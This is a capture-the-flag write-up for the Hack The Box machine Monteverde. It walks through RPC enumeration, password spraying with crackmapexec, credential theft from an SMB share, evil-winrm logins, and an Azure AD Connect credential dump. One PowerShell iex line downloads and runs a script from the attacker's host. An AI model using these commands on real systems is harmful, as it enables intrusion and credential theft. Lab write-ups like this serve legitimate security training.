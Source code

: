 ```yaml
---
description: https://app.hackthebox.com/machines/Monteverde
---
```


# 🐭 Monteverde

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So let's start by a quick nmap:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)  (11).png" alt=""><figcaption><p>TCP DNS (53) along with Kerberos (TCP 88) and LDAP (TCP 389) suggests this might be a domain controller</p></figcaption></figure>

Could not connect via SMB shares

So tried RPC on port 445:

```
rpcclient -U "" -N 10.129.69.81
querydispinfo
```

1. `rpcclient`: This is a command-line tool used to execute client-side operations on a remote system that supports RPC. It allows users to interact with services that utilize RPC for communication.
2. `-U ""`: This parameter specifies the username to use for authentication. In this case, an empty string `""` is used, which might indicate that the command is trying to connect anonymously or using a null session.
3. `-N`: This flag is used to indicate that no password should be prompted for, which typically implies anonymous authentication.
4. `10.129.69.81`: This is the IP address of the remote system to which the command is attempting to connect.
5. `querydispinfo`: This appears to be a command or operation being requested from the remote system. It could be querying display information, such as details about the available shared resources or services.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)   (1).png" alt=""><figcaption></figcaption></figure>

So we found the name of some of the users and their account name

a good way to go would be to check if the users use their name as passwords for their account

So let's try to put all the usernames in a word list and spray using crackmapexec

```
crackmapexec smb 10.129.69.81 -u users.txt -p users.txt --continue-on-success
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (4).png" alt=""><figcaption><p>MEGABANK.LOCAL\SABatchJobs:SABatchJobs</p></figcaption></figure>

cool we got a match&#x20;

Now let's use `smbmap` to tell me what shares there are and what I have access to in a cleaned up manner:

```
smbmap -H 10.129.69.81 -u SABatchJobs -p SABatchJobs
```

* `smbmap`: This is a command-line tool used to enumerate and interact with shares on SMB servers. It allows users to discover accessible shares, permissions, and other information available on SMB-enabled systems.
* `-H 10.129.69.81`: This parameter specifies the target host or IP address (`10.129.69.81`) of the SMB server that the `smbmap` tool will interact with. This is the remote system you want to analyze.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

after some enumeration we see some interesting files:

```
smbmap -H 10.129.69.81 -u SABatchJobs -p SABatchJobs -R 'users$'
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To grab it using smbclient ->

```
smbclient -U SABatchJobs //10.129.69.81/users$ SABatchJobs -c 'get mhope/azure.xml azure.xml'
```

1. `smbclient`: This is the command-line tool used to access files and services on SMB/CIFS servers.
2. `-U SABatchJobs`: This parameter specifies the username (`SABatchJobs`) to be used for authentication when connecting to the SMB/CIFS server.
3. `//10.10.10.172/users$`: This is the Uniform Naming Convention (UNC) path to the shared resource on the server (`10.10.10.172`). The `users$` represents a hidden share named `users`. The double slashes `//` indicate the beginning of a UNC path.
4. `SABatchJobs`: This is the password corresponding to the username provided with the `-U` flag. It's used for authentication purposes.
5. `-c 'get mhope/azure.xml azure.xml'`: This part of the command specifies a subcommand to be executed after connecting to the SMB/CIFS server. In this case, it's executing the `get` command to retrieve a file named `azure.xml` from the `mhope` directory on the server's `users$` share. The file will be downloaded to the local system and saved as `azure.xml`.

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Or another way of doing it:

```
smbclient -U SABatchJobs //10.129.69.81/users$ SABatchJobs
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

in the XML file, there are credentials:

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

since the credentials are in mhope directory, it's a high prob it's his credentials ->

You can check that with `crackmapexec`

```
crackmapexec winrm 10.129.69.81 -u mhope -p '4n0therD4y@n0th3r$'
```

1. `crackmapexec`: This is a penetration testing tool that is used for assessing the security of networks by identifying and exploiting vulnerabilities. It's specifically designed for enumerating and exploiting Windows hosts on a network.
2. `winrm`: This indicates that the operation being performed by `crackmapexec` pertains to WinRM, which is a management protocol used for remote management of Windows systems over HTTP(S). WinRM allows for remote execution of PowerShell commands and scripts, as well as other management tasks.
3. `10.129.69.81`: This is the IP address of the target system where the WinRM service is running. `crackmapexec` will attempt to connect to this system to perform enumeration or exploitation.
4. `-u mhope`: This flag specifies the username (`mhope`) to be used for authentication when connecting to the WinRM service on the target system.
5. `-p '4n0therD4y@n0th3r$'`: This flag specifies the password (`4n0therD4y@n0th3r$`) corresponding to the username provided with the `-u` flag. It's used for authentication purposes.

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We also get the indication that winrm works for this account so let's go:

```
evil-winrm -i 10.129.69.81 -u mhope -p '4n0therD4y@n0th3r$'
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>59f4dfa90d416cb495bd38d04f361549</p></figcaption></figure>

In the box description, we see that they talk about Azure Active Directory and there was a share "azure uploads"

When used without additional parameters, "net user mhope" displays detailed information about the specified user account, such as the account's full name, description, whether the account is active or disabled, when the account was created, and when the account's password was last set

<figure><img src="../../.gitbook/assets/image (26) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see that mhope is part of the azure admins group

after quick enumeration we also see  that there are a lot of azure related files:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)   (9).png" alt=""><figcaption></figcaption></figure>

nice blog about azure red teaming:

{% embed url="https://blog.xpnsec.com/azuread-connect-for-redteam/" %}

We see this :

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)  (10).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c" %}

on my local machine i'll put this in an "azurePentest.ps1" file:

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (3).png" alt=""><figcaption></figcaption></figure>

and go fetch it like that:

```
wget http://10.10.14.94:6969/azurePentest.ps1
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

or another way is to download it and executing it right away:&#x20;

```
iex(new-object net.webclient).downloadstring('http://10.10.14.94:6969/shell1.ps1')
```

1. `iex`: This is the alias for the `Invoke-Expression` cmdlet in PowerShell. It's used to execute commands or scripts represented as strings.
2. `(new-object net.webclient)`: This creates a new instance of the `System.Net.WebClient` class in .NET. This class provides methods for downloading data from the internet.
3. `.downloadstring('http://10.10.14.94:6969/shell1.ps1')`: This calls the `DownloadString` method of the `WebClient` object created in the previous step. It downloads the contents of the specified URL (`http://10.10.14.94:6969/shell1.ps1`) as a string.

Combining these components, the entire command can be interpreted as follows:

1. Create a new instance of the `WebClient` class.
2. Use this `WebClient` object to download the contents of the PowerShell script (`shell1.ps1`) from the specified URL (`http://10.10.14.94:6969/shell1.ps1`).
3. Execute the downloaded script using the `Invoke-Expression` cmdlet (`iex`)

<figure><img src="../../.gitbook/assets/image (620).png" alt=""><figcaption></figcaption></figure>

Script kiddie type stuff, but we get some credentials. Let's hop on WinRM:

{% content-ref url="../../interacting-with-protocols-and-tools/tools/winrm.md" %}
[winrm.md](../../interacting-with-protocols-and-tools/tools/winrm.md)
{% endcontent-ref %}

```
evil-winrm -i 10.129.69.81 -u administrator -p 'd0m@in4dminyeah!'
```

<figure><img src="../../.gitbook/assets/image (621).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (622).png" alt=""><figcaption></figcaption></figure>
